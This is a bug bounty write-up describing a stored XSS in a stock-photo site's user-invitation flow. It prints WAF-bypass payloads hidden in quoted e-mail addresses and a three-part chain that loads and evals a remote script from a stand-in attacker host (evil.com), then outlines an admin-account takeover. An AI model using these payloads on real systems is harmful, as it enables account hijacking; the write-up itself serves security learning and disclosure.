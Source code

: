 # XSS In Three Parts
This was the very first bug I reported to a bug bounty program. While it was first closed as informative, because I didn't find a payload without extensive user action, I managed to find a WAF-bypass to escalate it to a critical impact.

## Discovery
The target was a web application that offers stock photos that you can buy and download. It has some kind of user management, so that companies can create one account and share it with multiple users. Additional users can get access through an invitation link. This is the business logic:

* A user registers an account. He becomes automatically an admin of this account.
* He can then share an invitation link with other users
* The other user visits the invitation link and enters his e-mail-address
* The other users e-mail-address shows up in the admin-area to be confirmed / rejected by the admin

## Analysis
I started to test the allowed input for the e-mail-address. Because not every developer is aware of what characters are allowed within an e-mail-address, it's always worth to test. If a third-party library is used to check the validity of the address there is a chance that the possibility of an XSS attack is overseen.

For everyone who want's to read more about the format and allowed characters of an e-mail-address here is a [link](https://en.wikipedia.org/wiki/Email_address#Local-part).

In this case the full character-set was allowed, meaning that it was possible to use a quoted local part containing characters like `<`, `"` and `'`.

So I started to register a simple address like `"<h2>test</h2>"@example.com`. After that, the the e-mail-address showed up in the admin area of the inviting account and the HTML-tags were not sanitized. So at this point there was at least some HTML-injection.

## Exploitation
Trying some payloads that contained script tags or `on...`-attributes always ended with a `403 Forbidden` response. The only thing I found at this point was an `<a>`-tag with a javascript-URL to execute some code when the admin clicks the link. To bypass the WAF I had to use a payload like this: ``"<a href=jav&#x09;ascript:alert(1)>Click Me</a>"@example.com``.

After spending a lot of time I decided to submit this report. The next day the program closed the report as Informative without any comment or explanation. Of course it was unlikely that an admin would click the link, but it was my first report and I was very frustrated.

Anyway, I accepted the challenge and started to spend more time to find a WAF bypass to execute javascript without additional user interaction.

After a while I found a payload that bypassed the WAF. Starting the string with ``<x`a=x\ f=`>`` I was able to insert script tags like this: ``"<x`a=x\ f=`><script>alert(1)</script>"@example.com``

Unfortunately that was not the end because the local part of an e-mail-address must not exceed 64 characters. So I needed to find a way to execute code with this limited number of characters. Additionally there were some restrictions with whitespaces. They must be escaped with a backslash, but that breaks the HTML in a case like this: ``"<script\ src=https://example.com></script>"@example.com``

Eventually I came up with a solution, that creates the final payload in three steps. There was no Content Security Policy in place and at the beginning of the HTML-file jQuery was included. So the first two e-mail-addresses build up an URL to an external javascript-file that gets loaded via jQueries `$.getScript()` with `eval` in the final address:

``` html
"<x`a=x\ f=`><script>f='$.get\x53cript(\x22https://';</script>"@example.com

"<x`a=x\ f=`><script>g=f+'evil.com/t.js\x22)';</script>"@example.com

"<x`a=x\ f=`><script>eval(g)</script>"@example.com
```

## Conclusion
To exploit this bug, an attacker 

1. Needs to know the invitation-link. The token contains eight hexadecimal characters, so it could even be brute-forced.
2. Needs to enter three different e-mail-addresses with the payloads above

The victim will get an e-mail with a notification about the access request. As soon as he visits the admin area, the payload gets executed without any additional interaction.

The external script could now include some API-calls that
1.  Accept at least one of the e-mail-addresses
2.  Make the accepted user an admin
3.  Delete the orignal admin-account and maybe all other users

Eventually the attacker has full and exclusive access to the companies account.
